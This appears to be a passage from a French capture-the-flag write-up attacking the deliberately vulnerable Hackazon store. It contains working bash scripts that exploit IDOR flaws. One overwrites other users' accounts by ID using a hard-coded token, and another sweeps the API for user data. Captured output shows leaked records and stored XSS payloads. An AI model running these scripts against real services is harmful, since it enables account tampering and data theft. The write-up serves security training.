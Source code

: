 ```bash
for id in $(seq 2 100); do
  echo "Testing ID $id"
  curl -s -X PUT \
    -H "Authorization: Token 313e860e4d45d91f8261661db4d520bd46b8b00b" \
    -H "Content-Type: application/json" \
    -d "{
      \"id\": $id,
      \"username\": \"hacked$id\",
      \"first_name\": \"eliot\",
      \"last_name\": \"alderson\",
      \"user_phone\": \"+1(111)111-111$id\",
      \"email\": \"user$id@trackflaw.ctf\",
      \"active\": \"0\"
    }" \
    https://hackazon.trackflaw.com/api/user/$id
done
```

On peut également utiliser ceci pour modifier les orders,et les paniers soit 3 failles IDOR via ce script BASH : 

```bash
curl -s "https://hackazon.trackflaw.com//swagger.json" -o /tmp/swagger.json


jq -r '.paths | keys[]' /tmp/swagger.json | while read p; do
    url="https://hackazon.trackflaw.com/${p}"
    echo "Checking $url"
    curl -s -H "Authorization: Token 313e860e4d45d91f8261661db4d520bd46b8b00b" "$url" | egrep -i '"username"|"email"|"customer_id"'
done
```


```bash
Checking https://hackazon.trackflaw.com/api/auth
Checking https://hackazon.trackflaw.com/api/cart/my
{"id":"9","created_at":"2025-10-09 18:36:16","updated_at":"2025-10-09 16:36:16","items_count":"0","items_qty":"0","total_price":0,"uid":"fce320e2beed59cc1b70c82bc69dc9e5","customer_id":"0","customer_email":null,"customer_is_guest":"0","payment_method":null,"shipping_method":null,"shipping_address_id":"0","billing_address_id":"0","last_step":"0","items":[]}

Checking https://hackazon.trackflaw.com/api/cart/{cart_id}
Checking https://hackazon.trackflaw.com/api/cartItems
Checking https://hackazon.trackflaw.com/api/category
Checking https://hackazon.trackflaw.com/api/contactMessages
{"data":[
  {"id":"1","created_at":"2025-10-09 12:30:24","name":null,"email":null,"phone":null,"message":null,"customer_id":null},
  {"id":"2","created_at":"2025-10-09 12:38:58","name":"Hello","email":"hello@hello.com","phone":"716273827","message":"<script>...", "customer_id":"8"},
  {"id":"3","created_at":"2025-10-09 12:39:38","name":"Hello","email":"hello@hello.com","phone":"716273827","message":"<script>alert(\"1337\");</script>...", "customer_id":"8"},
  {"id":"4","created_at":"2025-10-09 12:39:46","name":null,"email":null,"phone":null,"message":null,"customer_id":"17"},
  {"id":"5","created_at":"2025-10-09 12:54:42","name":"a","email":"A@test.com","phone":"a","message":"<h1>test</h1>","customer_id":"5"},
  {"id":"6","created_at":"2025-10-09 13:29:16","name":"jdoe","email":"momotest@test.com","phone":"t","message":"aefzdsfd","customer_id":"12"}
],
"page":1,
"page_url":"/api/contact_messages?page=1",
"first_page":1,
"first_page_url":"/api/contact_messages?page=1",
"last_page":1,
```